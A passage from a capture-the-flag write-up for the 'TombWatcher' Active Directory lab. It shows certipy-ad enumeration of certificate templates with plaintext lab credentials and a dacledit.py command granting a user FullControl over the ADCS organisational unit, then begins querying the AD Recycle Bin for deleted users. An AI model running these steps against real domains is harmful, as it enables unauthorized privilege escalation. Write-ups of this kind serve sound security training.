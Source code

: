 #### 1) Enumerate CA / templates with certipy

We tried to use certipy-ad to enumerate certificate authorities and templates on the domain for user `John`. But there is no vulnerability found to escalate to administrator.

```bash
certipy-ad find -u john -p john123 -dc-ip 10.10.11.72 -vulnerable
```

![Restore AD Object](picture45.png)

#### 2) Modify AD ACL to grant john control over the ADCS OU

Using dacledit.py, we can add a FullControl ACE for john on the OU=ADCS container so john can change/restore objects under that OU.

```bash
python dacledit.py -action write -rights 'FullControl' -inheritance -principal 'john' -target-dn 'OU=ADCS,DC=TOMBWATCHER,DC=HTB' tombwatcher.htb 'john':'john123'
```

![Enable cert_admin](picture46.png)

#### 3) Find deleted AD objects (recoverable objects) from the recycle bin

On the compromised host we queried AD’s deleted objects (AD Recycle Bin) and found multiple users deletions.
